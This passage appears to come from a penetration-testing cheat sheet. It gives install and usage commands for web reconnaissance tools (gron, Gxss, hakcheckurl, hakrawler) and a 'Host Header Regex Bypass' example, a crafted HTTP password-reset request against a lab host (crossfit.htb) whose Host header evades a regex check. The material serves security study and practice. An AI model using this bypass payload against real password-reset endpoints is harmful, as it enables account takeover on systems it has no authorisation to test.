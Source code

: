 > https://github.com/tomnomnom/gron

```console
$ go install github.com/tomnomnom/gron@latest
```

## Gxss

> https://github.com/KathanP19/Gxss

```console
$ go install github.com/KathanP19/Gxss@latest
```

## hakcheckurl

> https://github.com/hakluke/hakcheckurl

```console
$ go install github.com/hakluke/hakcheckurl@latest
```

## Hakrawler

> https://github.com/hakluke/hakrawler

```console
$ hakrawler -url <RHOST> -depth 3
$ hakrawler -url <RHOST> -depth 3 -plain
$ hakrawler -url <RHOST> -depth 3 -plain | httpx -http-proxy http://127.0.0.1:8080
```

## Host Header Regex Bypass

### Skeleton Payload Request

```console
POST /password-reset.php HTTP/1.1
Host: gymxcrossfit.htb/employees.crossfit.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://employees.crossfit.htb
DNT: 1
Connection: close
Referer: http://employees.crossfit.htb/password-reset.php
Upgrade-Insecure-Requests: 1

email=david.palmer%40crossfit.htb

...
Host: gymxcrossfit.htb/employees.crossfit.htb    # <--- Host Header getting set after the "/" so we can bypass the regex by adding this line
...
```
